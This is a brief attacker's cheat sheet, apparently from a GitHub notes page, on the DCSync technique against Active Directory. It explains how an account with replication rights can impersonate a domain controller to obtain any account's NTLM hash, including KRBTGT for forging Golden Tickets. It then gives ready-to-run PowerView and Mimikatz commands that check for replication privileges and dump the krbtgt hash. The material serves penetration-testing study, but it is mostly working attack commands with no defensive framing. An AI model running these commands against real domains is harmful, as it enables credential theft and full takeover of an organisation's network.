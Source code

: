 # DCSync

## Brief

This attack simulates the behavior of a domain controller and asks other domain controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Basically, it lets you **pretend to be a domain controller** and ask for user password data. This can be used by attackers to get any account’s NTLM hash including the KRBTGT account, which enables attackers to create **Golden Tickets.**

The only pre-requisite to worry about is that you have an account with **rights** to perform **domain replication**. This is controlled by the Replicating Changes permissions set on the domain.

## Attack

### Check privileges

```powershell
Get-ObjectAcl -DistinguishedName "dc=fcorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

# if OK :
# lsadump::dcsync /domain:[YOUR DOMAIN ALTOUGH NOT NECESSARY] /user:[ANY USER WHOS PASSWORD DETAILS YOU WANT]
# FOR EXAMPLE:
lsadump::dcsync /domain:fcorp.local /user:krbtgt

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
# note : the user that has dcsync priv
```
